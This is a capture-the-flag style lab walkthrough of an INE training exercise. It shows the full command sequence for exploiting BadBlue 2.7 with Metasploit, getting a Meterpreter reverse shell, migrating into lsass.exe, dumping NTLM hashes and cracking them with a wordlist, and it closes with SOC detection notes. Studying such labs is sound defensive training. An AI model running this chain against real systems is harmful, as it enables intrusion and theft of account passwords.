





# Windows: NTLM Hash Cracking — INE Lab Walkthrough

> **Lab:** Windows: NTLM Hash Cracking  
> **Platform:** INE  
> **Target:** `demo.ine.local` (`10.0.26.110`)  
> **Objective:** Identify the vulnerable Windows service, obtain a Meterpreter session, access NTLM hashes, and crack the Administrator and Bob passwords.

---

## 1. Lab Overview

This lab demonstrates a common Windows credential-access workflow in a controlled training environment.

The overall flow was:

```text
Service Enumeration
        ↓
Identify BadBlue HTTP service
        ↓
Exploit BadBlue
        ↓
Meterpreter Session
        ↓
Process Migration to LSASS
        ↓
Dump NTLM Hashes
        ↓
Crack Hashes with a Wordlist
        ↓
Recover User Passwords
```

> **Note:** All commands in this walkthrough were performed against the authorized INE lab target.

---

## 2. Service Enumeration

### Command

```bash
nmap -sV demo.ine.local
```

### What it does

`nmap` scans the target for open ports.

The `-sV` option performs **service/version detection**, attempting to determine which service and version are running on each open port.

The important result was:

```text
80/tcp    open    http    BadBlue httpd 2.7
445/tcp   open    microsoft-ds
3389/tcp  open    ssl/ms-wbt-server
```

The BadBlue HTTP service on port `80` became the interesting attack surface.


---

## 3. Searching for a BadBlue Exploit

### Command

```bash
searchsploit BadBlue 2.7
```

### What it does

`searchsploit` searches the local Exploit-DB database for publicly documented exploits.

Here it was used to check whether the identified **BadBlue 2.7** version had known vulnerabilities.

The results showed a Metasploit-compatible BadBlue 2.7 exploit:

```text
BadBlue 2.7b - PassThru Buffer Overflow (Metasploit)
```

This helped identify the appropriate Metasploit module.



---

## 4. Starting Metasploit and Selecting the Exploit

### Command

```text
msfconsole -q
```

Then:

```text
use exploit/windows/http/badblue_passthru
```

### What it does

`msfconsole -q` starts the Metasploit Framework without displaying the startup banner.

The `use` command selects the BadBlue PassThru exploit module.

The module targets the vulnerable BadBlue HTTP service discovered during enumeration.

---

## 5. Setting the Target Host

### Command

```text
set RHOSTS demo.ine.local
```

### What it does

`RHOSTS` means **Remote Hosts**.

It tells Metasploit which system should receive the exploit.

In this lab:

```text
RHOSTS = demo.ine.local
        = 10.0.26.110
```

The attacker/listener machine was using:

```text
10.10.43.3
```

---

## 6. Launching the Exploit

### Command

```text
exploit
```

### What it does

This executes the selected BadBlue exploit.

The output showed:

```text
Started reverse TCP handler on 10.10.43.3:4444
Trying target BadBlue EE 2.7 Universal ...
Meterpreter session 1 opened
```

A **reverse TCP handler** waits for the compromised target to connect back to the attack machine.

The successful result was a Meterpreter session:

```text
Meterpreter session 1 opened
```



---

## 7. Enumerating Windows Processes

### Command

```text
ps
```

### What it does

`ps` is a Meterpreter command that displays the running processes on the compromised Windows machine.

Among the listed processes was:

```text
lsass.exe
```

running as:

```text
NT AUTHORITY\SYSTEM
```

LSASS is particularly important because **Local Security Authority Subsystem Service (`lsass.exe`)** handles important Windows authentication and security operations.



---

## 8. Migrating to LSASS

### Command

```text
migrate -N lsass.exe
```

### What it does

`migrate` attempts to move the Meterpreter session from its current process into another running process.

The `-N` option specifies the **process name**.

Therefore:

```text
migrate -N lsass.exe
```

means:

```text
Find lsass.exe
        ↓
Attempt process migration
        ↓
Run the Meterpreter session in that process context
```

The lab showed:

```text
[*] Migrating from 2748 to 516...
[*] Migration completed successfully.
```

This is useful in credential-access scenarios because LSASS is involved in Windows authentication and may contain authentication material in memory.

> **Important:** Process migration does not automatically grant every possible privilege. Access to protected processes and credential material depends on the privileges and security controls present on the target.


---

## 9. Dumping Windows Password Hashes

### Command

```text
hashdump
```

### What it does

`hashdump` attempts to retrieve Windows account password hashes from the compromised system.

The output included accounts such as:

```text
Administrator
bob
Guest
```

The important entries were the Administrator and Bob accounts.

Windows commonly stores password representations as hashes rather than plaintext passwords. In this lab, the relevant hashes were **NTLM hashes**.

Conceptually:

```text
Windows account
      ↓
Password
      ↓
NTLM hash
      ↓
Credential extraction
```

The hash itself is not the plaintext password.


---

## 10. Using the Windows Hash-Cracking Module

### Command

```text
use auxiliary/analyze/crack_windows
```

### What it does

This loads Metasploit's Windows credential/hash cracking auxiliary module.

The module looks for Windows credential/hash material already available to Metasploit.

---

## 11. Selecting the Wordlist

### Command

```text
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### What it does

`CUSTOM_WORDLIST` specifies the dictionary file containing candidate passwords.

The wordlist contains possible passwords that the cracking process tests against the recovered hashes.

The fact that the file is named `unix_passwords.txt` does **not** mean that the target must be Linux. A wordlist is simply a collection of password candidates and can be used against compatible hash types from different systems.

---

## 12. Running the Cracker

### Command

```text
exploit
```

### What it does

Although the command is named `exploit`, in this context it simply **executes the loaded auxiliary module**.

The output showed:

```text
No lm found to crack
No mscash found to crack
No mscash2 found to crack
No netlm found to crack
No netntlmv2 found to crack
```

It then detected the relevant NT hashes and passed them to John the Ripper for cracking.

The cracking process completed successfully.



---

## 13. Viewing the Cracked Credentials

### Command

```text
creds
```

### What it does

The `creds` command displays credential information stored in the Metasploit database.

The results showed entries for:

```text
Administrator
bob
```

with the corresponding NTLM hashes and recovered passwords.

The lab's cracking stage therefore successfully recovered the passwords for the required accounts.



---

## 14. Key Commands Summary

| Command | Purpose |
|---|---|
| `nmap -sV demo.ine.local` | Discover open services and versions |
| `searchsploit BadBlue 2.7` | Search for known BadBlue vulnerabilities |
| `msfconsole -q` | Start Metasploit quietly |
| `use exploit/windows/http/badblue_passthru` | Select the BadBlue exploit |
| `set RHOSTS demo.ine.local` | Set the target host |
| `exploit` | Execute the selected module |
| `ps` | List Windows processes |
| `migrate -N lsass.exe` | Attempt migration into LSASS |
| `hashdump` | Retrieve Windows password hashes |
| `use auxiliary/analyze/crack_windows` | Load Windows hash-cracking module |
| `set CUSTOM_WORDLIST ...` | Configure the password wordlist |
| `exploit` | Execute the cracking module |
| `creds` | Display credentials stored by Metasploit |

---

## 15. What I Learned

### 🔎 Enumeration

Service/version detection can reveal vulnerable software that becomes an initial attack surface.

### 💥 Exploitation

A vulnerable network service can provide initial code execution and a Meterpreter session.

### 🧠 Process Migration

`migrate -N lsass.exe` demonstrates how attackers may move execution into a security-sensitive Windows process.

### 🔐 Credential Access

`hashdump` demonstrates retrieval of Windows password hashes from a compromised system.

### 🔨 Password Cracking

NTLM hashes are not simply "decrypted." A cracking tool tests candidate passwords and compares their resulting hashes against the captured hash.

### 🛡️ SOC Perspective

From a defensive perspective, suspicious activity involving:

- BadBlue exploitation
- Unexpected Meterpreter/reverse-shell behavior
- Process injection or migration
- Access to `lsass.exe`
- Credential dumping
- NTLM credential activity

can indicate a potential **credential-access attack** and should be investigated.

---

## 16. Attack Chain

```text
                    INE Windows Target
                           │
                           ▼
                  Nmap Service Scan
                           │
                           ▼
                    BadBlue 2.7
                           │
                           ▼
                 SearchSploit Research
                           │
                           ▼
                BadBlue PassThru Exploit
                           │
                           ▼
                  Meterpreter Session
                           │
                           ▼
                  Process Enumeration
                           │
                           ▼
                  Migrate → lsass.exe
                           │
                           ▼
                       hashdump
                           │
                           ▼
                    NTLM Hashes
                           │
                           ▼
                 crack_windows module
                           │
                           ▼
                    Wordlist Attack
                           │
                           ▼
                 Recovered Passwords
                           │
                           ▼
                  Administrator + Bob
```

---

## 17. Conclusion

This lab provided a practical introduction to a Windows credential-access workflow.

The most important lesson is that **credential attacks are usually a chain of activities rather than a single command**:

```text
Find → Exploit → Access → Enumerate → Extract → Crack
```

Understanding this chain from both the **attacker's perspective** and the **SOC analyst's defensive perspective** helps identify suspicious behavior in Windows environments.
